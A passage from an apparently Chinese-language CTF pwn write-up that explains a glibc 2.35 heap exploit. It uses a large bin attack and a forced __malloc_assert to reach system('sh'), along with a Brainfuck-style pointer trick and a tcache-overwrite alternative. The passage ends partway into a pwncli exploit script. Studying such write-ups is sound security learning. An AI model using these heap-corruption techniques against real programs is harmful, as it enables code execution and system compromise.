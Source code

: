最后修改chunk A的size的A位，再次使用large bin attack，程序会因为malloc.c:4105的check过不了而触发__malloc_assert，最终调用`system("sh")`

![image-20221212211848111](./img/image-20221212211848111.png)



##### trick

使用 ` ,[>>>>>>>>,]`类似格式的代码来实现无限制读写以及指针加减，这种做法可能会改变chunk的一些字段，注意修改就行。



##### 赛后

赛后了解到一种思路是利用越界写去修改tcache的entries和counts从而实现任意地址申请，但是这样做只能申请一次，之后会因为malloc的check过不了而无法申请。

其实最开始bss段上的结构体我是放在mmap的内存上的，之后考虑到了这个思路就放到bss上了，也把mmap的内存权限改为只能执行。



### exp

```python
#!/usr/bin/python3
from pwncli import *

context.terminal = ['tmux','splitw','-h']
context.arch="amd64"
context.log_level="debug"

def debug(addr=-1,PIE=True):
    if addr == -1:
        gdb.attach(p)
    else:
        if PIE:
            gdb.attach(p,'''b *$rebase({})
                            directory /usr/src/glibc/glibc-2.35/
                            b ./malloc/malloc.c:306
                            c
                            '''.format(hex(addr)))
        else:
            gdb.attach(p,"b *{}".format(hex(addr))) 


def log(strr,addr):
    info("\033[0;31m{} --> {}\033[0m".format(strr,hex(addr)))

code = b""
data = b""
data2 = b""

def ptr_add(x, pad=b'a', step=8):
    global code
    global data
    code += b",[" + b'>'*step + b",]"
    data += pad*(x//step) + b'\x00'

def ptr_add2(x, pad=b'a', step=8):
    global code
    global data2
    code += b",[" + b'>'*step + b",]"
```